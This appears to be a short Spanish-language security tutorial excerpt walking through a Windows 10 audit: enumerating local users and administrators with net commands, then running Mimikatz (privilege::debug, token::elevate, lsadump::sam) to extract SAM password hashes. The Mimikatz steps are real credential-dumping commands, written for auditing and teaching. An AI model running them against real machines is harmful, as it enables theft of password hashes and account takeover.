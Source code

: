 
### 🧪 EJEMPLO COMPLETO

#### 🎓 Escenario:

Estás haciendo auditoría en una laptop con Windows 10. Tienes permisos de administrador. Quieres:

1. Ver los usuarios locales
2. Ver quiénes son administradores
3. Extraer los hashes de la SAM con Mimikatz

---

#### 🔧 Paso a paso

##### 🔸 1. Ver los usuarios locales

```cmd
net user
```

Resultado:

```
Administrador
Invitado
juan.local
```

---

##### 🔸 2. Ver miembros del grupo Administradores

```cmd
net localgroup Administradores
```

Resultado:

```
Administrador
juan.local
```

---

##### 🔸 3. Extraer la SAM con Mimikatz

Desde PowerShell o CMD elevado:

```cmd
mimikatz.exe
```

Y luego en la consola de Mimikatz:

```txt
privilege::debug
token::elevate
lsadump::sam
```
